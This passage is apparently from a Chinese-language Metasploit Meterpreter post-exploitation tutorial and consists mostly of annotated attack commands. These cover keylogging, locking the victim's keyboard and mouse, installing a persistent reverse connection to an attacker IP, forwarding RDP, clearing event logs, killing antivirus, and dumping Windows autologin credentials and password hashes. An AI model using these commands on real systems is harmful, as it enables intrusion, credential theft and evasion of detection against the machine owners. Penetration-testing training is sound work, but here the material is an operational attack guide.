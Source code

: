 ```bash
keyscan_dump                 #显示捕捉到的键盘记录信息
keyscan_stop                 #停止键盘记录功能
uictl  disable  keyboard     #禁止目标使用键盘
uictl  enable   keyboard     #允许目标使用键盘
uictl  disable  mouse        #禁止目标使用鼠标
uictl  enable   mouse        #允许目标使用鼠标
load                         #使用扩展库
run                          #使用扩展库
​
run persistence -X -i 5 -p 8888 -r 192.168.10.27        #反弹时间间隔是5s 会自动连接192.168.27的4444端口，缺点是容易被杀毒软件查杀
portfwd add -l 3389 -r 192.168.11.13 -p 3389     #将192.168.11.13的3389端口转发到本地的3389端口上，这里的192.168.11.13是获取权限的主机的ip地址
clearev                       #清除日志
```

![点击并拖拽以移动](https://p4.ssl.qhimg.com/t012eb09f21483b324d.gif)

### Post 后渗透模块

该模块主要用于在取得目标主机系统远程控制权后，进行一系列的后渗透攻击动作。

```bash
run post/windows/manage/migrate           #自动进程迁移
run post/windows/gather/checkvm           #查看目标主机是否运行在虚拟机上
run post/windows/manage/killav            #关闭杀毒软件
run post/windows/manage/enable_rdp        #开启远程桌面服务
run post/windows/manage/autoroute         #查看路由信息
run post/windows/gather/enum_logged_on_users    #列举当前登录的用户
run post/windows/gather/enum_applications       #列举应用程序
run post/windows/gather/credentials/windows_autologin #抓取自动登录的用户名和密码
run post/windows/gather/smart_hashdump               #dump出所有用户的hash
```

![点击并拖拽以移动](https://p4.ssl.qhimg.com/t012eb09f21483b324d.gif)

输入：sysinfo 查看目标主机的信息

![](https://p0.ssl.qhimg.com/t011f3e4c70f85ed98b.png)

### 查看主机是否运行在虚拟机上

```bash
run post/windows/gather/checkvm
```

![](https://p2.ssl.qhimg.com/t0176969a7badeb58d5.png)

### 关闭杀毒软件

拿到目标主机的shell后第一件事就是关闭掉目标主机的杀毒软件，通过命令：

```undefined
run  killav
```
